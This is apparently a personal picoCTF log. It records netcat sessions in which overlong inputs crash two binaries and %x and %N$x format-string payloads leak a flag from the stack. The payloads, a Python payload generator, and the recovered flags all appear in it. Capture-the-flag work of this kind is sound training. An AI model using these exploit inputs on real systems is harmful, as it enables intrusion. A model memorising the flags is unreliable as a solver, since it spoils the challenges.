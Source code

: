 earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 53208
Input: wqeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

_______________________________________________________________________________________________________

earthwarrior@LAPTOP-VLDN28C5:~$ nc mimas.picoctf.net 59065
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 1e2qwe21.#\
There is no such burger yet!

earthwarrior@LAPTOP-VLDN28C5:~$ nc mimas.picoctf.net 59065
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}

_______________________________________________________

earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
Here's a story -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq&&&&&&&&&&&&&&


qew
eqweqeqeqeqeq
^Z
[1]+  Stopped                 nc saturn.picoctf.net 50585
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> \0
Here's a story -
\0

^Z
[2]+  Stopped                 nc saturn.picoctf.net 50585
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> %s
Here's a story -
%s
^C
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> flag.txt
Here's a story -
flag.txt





https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/




earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 53394
Tell me a story and then I'll tell you one >> %x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x
Here's a story -
ff9a22c0:ff9a22e0:8049346:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:253a78:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:

by copy pasting into a hexadec to text website https://www.rapidtables.com/convert/number/hex-to-ascii.html
we get
ÿ"Àÿ"àI4bS§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§RS§ö6´eD6³C4ÅövãsFÄffcóGE5


after some trail and error i just deleted part of the initial text
now translating 
78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:253a78:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:
we get
x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%%:xocip{FTCk43L_gn1g4lFff0_4tS_

of which ocip{FTCk43L_gn1g4lFff0_4tS_ looks like the flag but jumbled
{k43L_gn1 g4lF ff0_ 4tS _     |  picoCTF{L34king_Fl4g_0ff_St4_

it seems like im missing a bit of the the flag since it doesnt close the bracket

using this python code
```bash
a= _some integer_

for i in range(1,10):
    b=str(a+i)
    print("%"+b+"$x:",end='')
```
Tell me a story and then I'll tell you one >> %6$x:%7$x:%8$x:%9$x:%10$x:%11$x:%12$x:%13$x:%14$x:
Here's a story -
38253a78:253a7824:3a782439:24303125:31253a78:3a782431:24323125:31253a78:3a782433:
translates to
8%:x%:x$:x$9$01%1%:x:x$1$21%1%:x:x$3

after a few iterations i got 

%31$x:%32$x:%33$x:%34$x:%35$x:%36$x:%37$x:%38$x:%39$x:
Here's a story -
1:eaab4000:8048338:eaa78d20:ea8fdab0:6f636970:7b465443:6b34334c:5f676e31:
translates to
ª´8ê§ êÚ°ocip{FTCk43L_gn1


Tell me a story and then I'll tell you one >> %36$x:%37$x:%38$x:%39$x:%40$x:%41$x:%42$x:%43$x:%44$x:
Here's a story -
6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:395f6b63:30366635:

translates to
ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5

im still missing a close brackets so i increase the limits

earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 55320
Tell me a story and then I'll tell you one >> %36$x:%37$x:%38$x:%39$x:%40$x:%41$x:%42$x:%43$x:%44$x:%45$x:%46$x:%47$x:%48$x:%49$x:
Here's a story -
6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:395f6b63:30366635:7d373136:fbad2000:a96d3100:0:f336d990:
translates to

ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716û­ ©m13m

`ocip {FTC k43L _gn1 g4lF ff0_ 4tS_ 9_kc 06f5 }716`
rearrages to picoCTF{L34king_Fl4g_0ff_St4ck_95f60617}
which doesnt seem to work for god knows why
